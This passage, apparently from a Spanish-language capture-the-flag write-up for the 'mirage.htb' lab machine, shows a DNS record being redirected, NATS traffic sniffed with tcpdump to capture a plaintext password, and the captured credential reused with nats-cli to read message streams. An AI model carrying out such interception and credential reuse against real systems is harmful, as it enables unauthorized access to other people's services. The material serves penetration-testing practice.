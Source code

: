 y por ultimo vamos a tener que actualizar nuevamente el registro `DNS` como antes

<img width="1920" height="1053" alt="image" src="https://github.com/user-attachments/assets/e598e0b8-d29e-4be9-bd7b-ca2c19cbf7c0" />

una vez actualizado el registro `DNS` veremos lo siguiente

<img width="1920" height="1053" alt="image" src="https://github.com/user-attachments/assets/7e3a3674-8b30-4391-8337-e71745550926" />

aqui ya vemos que obtenemos un usuario `Dev_Account_A` pero la password observamos que no es posible verla `"pass":"[REDACTED]"` asi que usaremos `tcpdump` para intentar obtenerla al inspeccionar el trafico de red

```bash
tcpdump -i tun0 port 4222 -A -l | grep "pass"
```

luego volvemos actualizar el registro `DNS` y obtenemos la password en texto plano

<img width="1920" height="1053" alt="image" src="https://github.com/user-attachments/assets/832657d9-bdfd-47eb-85a9-bbbf5e5bf721" />

por lo que logramos obtener las credenciales `Dev_Account_A:hx5h7F5554fP@1337!`. Con las credenciales obtenidas las vamos a testear en el server original...
Primero agregamos `nats-svc.mirage.htb` a `/etc/hosts`

Luego nos descargamos e instalamos nats-cli

```bash
wget https://github.com/nats-io/natscli/releases/download/v0.2.4/nats-0.2.4-amd64.deb
```

lo instalamos

```bash
dpkg -i nats-0.2.4-amd64.deb
```

ahora testeamos las credenciales

```bash
nats sub ">" --server nats://nats-svc.mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!'
```

<img width="1920" height="943" alt="image" src="https://github.com/user-attachments/assets/a92ecdf0-b88d-48c6-9c01-c8b881e43a41" />

las credenciales son validas, y observamos un stream llamado `auth_logs` asi que el siguiente paso sea leer lo mensajes del stream `auth_logs`

>>> primero listamos los consumers que existen

```bash
nats consumer ls auth_logs --server nats://nats-svc.mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!
```

<img width="1920" height="254" alt="image" src="https://github.com/user-attachments/assets/436782e1-aa05-4e5c-9654-207c70620307" />

>>> ahora vamos a ver la informacion de los consumers
>>>
>>> Consumer audit-reader
